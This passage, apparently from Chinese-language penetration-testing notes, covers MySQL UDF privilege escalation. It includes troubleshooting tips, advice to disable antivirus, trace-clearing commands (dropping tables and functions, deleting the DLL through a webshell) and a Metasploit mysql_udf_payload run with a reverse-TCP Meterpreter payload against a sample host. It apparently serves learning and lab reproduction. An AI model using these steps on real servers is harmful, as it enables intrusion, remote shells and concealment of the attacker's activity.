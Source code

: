         #3、创建sys_eval 函数时提示已经存在，但利用与删除时提示 sys_eval
        函数不存在（实战无法解决，漏洞复现可以）。**
        原因是上一个人利用过后，数据库进行了重启。
        
        #ERROR 1126 (HY000): Can't open shared library 'udf.dll' (errno: 193 )
        在进行udf提权时碰到这个错误一般是ufd文件位数选择错误，尝试另一个位数的udf文件。
        
        ```

        - win10下复现成功，但是要关闭杀软。

    - 痕迹清除

        - **删除表**：drop table temp;
        - **删除函数**：drop function sys_eval;
        - webshell上删除.dll 文件

- **自动化udf提权**

    - 如果得到了数据库的用户名和密码，并且可以远程连接的话，可以使用MSF里面的 **exploit/multi/mysql/mysql_udf_payload** 模块或者**sqlmap**自动注入。

    - msf
        - 使用MSF中的 exploit/multi/mysql/mysql_udf_payload 模块也可以进行UDF提权。MSF会将dll文件写入lib\plugin\目录下(前提是该目录存在，如果该目录不存在的话，则无法执行成功)，dll文件名为任意创建的名字。该dll文件中包含sys_exec()和sys_eval()两个函数，但是默认只创建sys_exec()函数，该函数执行并不会有回显。我们可以手动创建 sys_eval() 函数，来执行有回显的命令。
        
        - ```
            use exploit/multi/mysql/mysql_udf_payload
            set payload windows/x64/meterprete
            r/reverse_tcp
            set RHOSTS 172.23.208.1
            set password 123456
            run
            ```
        
